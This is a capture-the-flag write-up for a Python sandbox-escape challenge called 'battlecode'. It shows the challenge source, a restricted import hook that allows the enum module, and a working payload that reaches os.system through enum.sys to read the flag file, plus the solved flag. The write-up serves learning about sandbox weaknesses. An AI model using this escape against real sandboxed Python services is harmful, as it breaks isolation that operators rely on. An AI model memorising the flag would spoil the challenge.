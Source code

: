 # battlecode

```
look who's trying to sandbox python with restrictedpython

nc challs1.pyjail.club 19290
```

Attachment:

```python
#!/usr/local/bin/python3
from os import system

print('battlecode. end input with __EOF__')

code = ''
while (line := input()) != '__EOF__':
    code += line
    code += '\n'

system('cp -r /battlecode25-scaffold /tmp/battlecode25-scaffold')

with open('/tmp/battlecode25-scaffold/python/src/examplefuncsplayer/bot.py', 'w') as f:
    f.write(code)

system(b'cd /tmp/battlecode25-scaffold/python && /usr/local/bin/python3 /tmp/battlecode25-scaffold/python/run.py run --p1 examplefuncsplayer --p2 examplefuncsplayer')

print('goodbye')
```

Our code is running under restricted environment for battlecode game. Reading the code of the container, we find some modules that are allowed to import:

```python
# battlecode25/engine/container/runner.py
def import_call(self, name, globals=None, locals=None, fromlist=(), level=0, caller='robot'):
    if not isinstance(name, str) or not (isinstance(fromlist, tuple) or fromlist is None):
        raise ImportError('Invalid import.')

    if name == '':
        # This should be easy to add, but it's work.
        raise ImportError('No relative imports (yet).')

    if not name in self.code:
        if name == 'random':
            import random
            return random
        if name == 'math':
            import math
            return math
        if name == 'enum':
            import enum
            return enum

        raise ImportError('Module "' + name + '" does not exist.')
```

We find that `enum` module can be used to access `sys`, just as we can access `sys` from `datetime` in [Vibe Web Mail](../2025-09-26-iran-tech-olympics-ctf-2025/vibe-web-mail.md):

```shell
$ python3.12
>>> import enum
>>> dir(enum)
['CONFORM', 'CONTINUOUS', 'DynamicClassAttribute', 'EJECT', 'Enum', 'EnumCheck', 'EnumMeta', 'EnumType', 'Flag', 'FlagBoundary', 'IntEnum', 'IntFlag', 'KEEP', 'MappingProxyType', 'NAMED_FLAGS', 'ReprEnum', 'STRICT', 'StrEnum', 'UNIQUE', '_EnumDict', '__all__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', '_auto_null', '_dataclass_repr', '_dedent', '_high_bit', '_is_descriptor', '_is_dunder', '_is_internal_class', '_is_private', '_is_single_bit', '_is_sunder', '_iter_bits_lsb', '_make_class_unpicklable', '_not_given', '_old_convert_', '_or_', '_proto_member', '_reduce_ex_by_global_name', '_simple_enum', '_stdlib_enums', '_test_simple_enum', 'auto', 'bin', 'bltns', 'global_enum', 'global_enum_repr', 'global_flag_repr', 'global_str', 'member', 'nonmember', 'pickle_by_enum_name', 'pickle_by_global_name', 'property', 'reduce', 'show_flag_values', 'sys', 'unique', 'verify']
>>> enum.sys
<module 'sys' (built-in)>
```

Attack:

```python
import enum


def turn():
    enum.sys.modules["os"].system("cat /app/flag.txt")


__EOF__
```

Flag: `jail{enum_is_based_for_importing_sys_and_builtins}`.

First blood: `wake up, jiegec just blooded battlecode`.
